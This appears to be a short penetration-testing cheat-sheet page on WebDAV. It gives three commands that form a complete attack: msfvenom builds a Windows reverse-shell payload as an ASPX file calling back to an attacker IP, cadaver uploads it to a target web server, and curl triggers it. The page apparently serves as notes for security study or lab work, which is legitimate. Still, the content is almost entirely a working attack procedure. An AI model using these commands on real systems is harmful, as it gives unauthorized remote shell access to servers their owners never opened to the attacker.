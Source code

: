 # WebDav

#### Get a reverse shell - _<mark style="color:red;">**Authenticated**</mark>_

Create a reverse shell (this is for windows):

{% code overflow="wrap" %}
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx
```
{% endcode %}

Upload shell using WebDAV client (cadaver):

```sh
cadaver http://192.168.219.122

> put shell.aspx
```

trigger shell to get connection:

```
curl http://192.168.219.122/shell.aspx
```
